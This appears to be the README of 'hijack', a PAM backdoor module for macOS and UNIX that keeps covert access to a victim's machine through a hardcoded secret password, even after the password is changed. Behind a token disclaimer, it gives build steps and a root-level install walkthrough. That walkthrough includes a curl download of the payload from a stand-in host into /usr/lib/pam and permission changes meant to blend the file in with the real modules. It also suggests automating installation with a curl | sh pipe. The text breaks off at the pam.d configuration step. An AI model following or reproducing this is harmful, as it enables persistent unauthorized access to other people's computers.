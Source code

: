 # hijack
A PAM module created to act as a shim enabling sustained "legitimate" access to an unsuspecting victim's UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 - This small utility is provided for educational use on machines you yourself own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.
 - Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it – you can try this yourself if you'd like: just run `strings /usr/lib/pam/hijack.so` and you should see your password in the output. Bad design, I know. I'm just too lazy to fix it.

## Features (& Relevant Caveats)
This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically function on any UNIX system that employs PAM authentication.

IMPORTANT: Hijack does *not* affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something, it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you *want* to have Xcode).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

1. Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
2. Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```
3. Edit the relevant configuration files in ``/etc/pam.d`
